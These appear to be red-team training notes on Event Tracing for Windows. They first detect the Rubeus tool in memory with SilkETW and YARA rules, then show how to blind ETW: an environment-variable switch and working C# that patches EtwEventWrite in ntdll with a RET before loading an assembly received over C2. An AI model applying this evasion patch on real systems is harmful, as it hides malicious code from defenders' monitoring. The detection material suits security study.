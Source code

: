 Event Tracing for Windows (ETW) provides a mechanism to trace and log events that are raised by user-mode applications.  [SilkETW](https://github.com/mandiant/SilkETW) takes most of the pain out of consuming ETW events for a wide array of offensive and defensive purposes.  It's next largest strengths (in my view) are the formats it can output to (URL, Windows Event Log, JSON) and it's integration with [YARA](https://virustotal.github.io/yara/).

A popular use case for it is to provide .NET introspection - that is, to detect .NET assemblies in memory.  Let's explore ways to detect Rubeus in-memory...

  

When a .NET assembly is loaded, the Microsoft-Windows-DotNETRuntime provider produces an event called `AssemblyLoad`.  The data contained is the fully qualified name of the assembly.

```
C:\Tools\SilkETW\SilkETW\bin\x86\Release>SilkETW.exe -t user -pn Microsoft-Windows-DotNETRuntime -uk 0x2038 -ot file -p C:\Users\Administrator\Desktop\etw.json -f EventName -fv Loader/AssemblyLoad

███████╗██╗██╗   ██╗  ██╗███████╗████████╗██╗    ██╗
██╔════╝██║██║   ██║ ██╔╝██╔════╝╚══██╔══╝██║    ██║
███████╗██║██║   █████╔╝ █████╗     ██║   ██║ █╗ ██║
╚════██║██║██║   ██╔═██╗ ██╔══╝     ██║   ██║███╗██║
███████║██║█████╗██║  ██╗███████╗   ██║   ╚███╔███╔╝
╚══════╝╚═╝╚════╝╚═╝  ╚═╝╚══════╝   ╚═╝    ╚══╝╚══╝
                  [v0.8 - Ruben Boonen => @FuzzySec]

[+] Collector parameter validation success..
[>] Starting trace collector (Ctrl-c to stop)..
[?] Events captured: 6
```
  

Whilst SilkETW is running, execute `C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe`.  Review the JSON file and we see the following entries: `"FullyQualifiedAssemblyName":"Rubeus, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null"`

Based on this we can create a YARA rule.  Save this to `C:\Users\Administrator\Desktop\YARA\rubeus.yara`.

```
rule Rubeus_FullyQualifiedAssemblyName
{
    strings:
        $fqan = "Rubeus, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null" ascii nocase wide
    condition:
        $fqan
}
```

  

Run SilkETW again, but provide the `-y` and `-yo` options for YARA.  Execute Rubeus again and the rule should trigger.

```
C:\Tools\SilkETW\SilkETW\bin\x86\Release>SilkETW.exe -t user -pn Microsoft-Windows-DotNETRuntime -uk 0x2038 -ot file -p C:\Users\Administrator\Desktop\etw.json -f EventName -fv Loader/AssemblyLoad -y C:\Users\Administrator\Desktop\YARA -yo Matches

[+] Collector parameter validation success..
[>] Starting trace collector (Ctrl-c to stop)..
[?] Events captured: 8
     -> Yara match: Rubeus_FullyQualifiedAssemblyName
```
  

The `Loader/ModuleLoad` event will show modules that have been loaded by an assembly.  Applications that have been compiled as Debug will attempt to load its associated PDB database.  In this case we'd see `"ManagedPdbBuildPath":"C:\\Tools\\Rubeus\\Rubeus\\obj\\Debug\\Rubeus.pdb"` in the JSON output.

We can add another YARA rule to the file to search for `"Rubeus.pdb"` and run again.

```
rule Rubeus_ProgramDatabase
{
    strings:
        $pdb = "Rubeus.pdb" ascii nocase wide
    condition:
        $pdb
}
```

C:\Tools\SilkETW\SilkETW\bin\x86\Release>SilkETW.exe -t user -pn Microsoft-Windows-DotNETRuntime -uk 0x2038 -ot file -p C:\Users\Administrator\Desktop\etw.json -y C:\Users\Administrator\Desktop\YARA -yo Matches

```
[+] Collector parameter validation success..
[>] Starting trace collector (Ctrl-c to stop)..
[?] Events captured: 596
     -> Yara match: Rubeus_FullyQualifiedAssemblyName
     -> Yara match: Rubeus_ProgramDatabase
```
  

IL (intermediary language) stubs are dynamically generated by the CLR (common language runtime).  They handle the marshalling and invocation of native methods (ala P/Invoke) and can therefore be used to find assemblies using interop to access unmanaged code.  We can filter on these with `-fv ILStub/StubGenerated`.

From that, we'll see namespaces such as `Rubeus.Interop/TOKEN_INFORMATION_CLASS` and `Rubeus.Interop/LSA_STRING`.

```
rule Rubeus_Interop
{
    strings:
        $tic = "Rubeus.Interop/TOKEN_INFORMATION_CLASS" ascii nocase wide
        $lsa = "Rubeus.Interop/LSA_STRING" ascii nocase wide
    condition:
        any of them
}
```

C:\Tools\SilkETW\SilkETW\bin\x86\Release>SilkETW.exe -t user -pn Microsoft-Windows-DotNETRuntime -uk 0x2038 -ot file -p C:\Users\Administrator\Desktop\etw.json -y C:\Users\Administrator\Desktop\YARA -yo Matches

```
[+] Collector parameter validation success..
[>] Starting trace collector (Ctrl-c to stop)..
[?] Events captured: 664
     -> Yara match: Rubeus_FullyQualifiedAssemblyName
     -> Yara match: Rubeus_ProgramDatabase
     -> Yara match: Rubeus_Interop
```
  

An interesting note is that just running `Rubeus.exe` will not trigger the `Rubeus_Interop` rule.  Because the assembly did not execute any code that uses interop, the no IL stubs were generated that would trigger it. `Rubeus.exe klist` will trigger the rule.

  

---

  

If executing an exe on disk from a shell, the easiest (and most ridiculous) way to disable ETW events is to set the `COMPlus_ETWEnabled` environment variable to `0`.

![[45. Event Tracing for Windows (ETW).png]]

To disable ETW in code, we can take a cue from the popular [in-memory patching technique](https://rastamouse.me/memory-patching-amsi-bypass/) to disable AMSI.  Advapi32.dll exports an API called **EventWrite** which forwards to **EtwEventWrite** in ntdll.dll.  We can patch instructions in memory at one of these locations to prevent the API writing events.

Consider the following boilerplate code:

```csharp
// pretend this is coming down a C2 as a byte[]
var bytes = File.ReadAllBytes(@"C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe");

// load the assembly
var assembly = Assembly.Load(bytes);

// invoke its entry point with arguments
assembly.EntryPoint.Invoke(null, new object[] { args });
```
  

Prior to loading the assembly, we'd like to locate one of those APIs (let's go with the lower-level EtwEventWrite) and write a `RET` at the beginning.

  A simple RET works fine for x64, but if on x86 you will need to adjust the stack first.

  

The high level steps are as follows:

-   Get the memory address of ntdll in the current process.
-   Get the memory address of EtwEventWrite from ntdll.
-   Make that region of memory writeable
-   Copy the patch
-   Restore the memory permissions

  

```csharp
// get location of ntdll.dll
var hModule = LoadLibrary("ntdll.dll");
Console.WriteLine("ndtll: 0x{0:X}", hModule.ToInt64());

// find EtwEventWrite
var hfunction = GetProcAddress(hModule, "EtwEventWrite");
Console.WriteLine("EtwEventWrite: 0x{0:X}", hfunction.ToInt64());

var patch = new byte[] { 0xC3 };

// mark as RW
VirtualProtect(hfunction, (UIntPtr)patch.Length, 0x04, out var oldProtect);
Console.WriteLine("Memory: 0x{0:X} -> 0x04", oldProtect);

// write a ret
Marshal.Copy(patch, 0, hfunction, patch.Length);

// restore memory
VirtualProtect(hfunction, (UIntPtr)patch.Length, oldProtect, out _);
Console.WriteLine("Memory: 0x04 -> 0x{0:X}", oldProtect);
```

![[46. Event Tracing for Windows (ETW).png]]


**LoadLibrary** and **GetProcAddress** are native APIs that you must P/Invoke.  If you want to give it a try with D/Invoke, take a look at `Generic.GetLibraryAddress()`.

Where Cobalt Strike does have an `amsi_disable` directive in Malleable C2, it has no equivalent like "etw_disable".  The most viable way to integrate this style of ETW patching with execute-assembly, is via a user defined reflective loader (discussed in a later module).

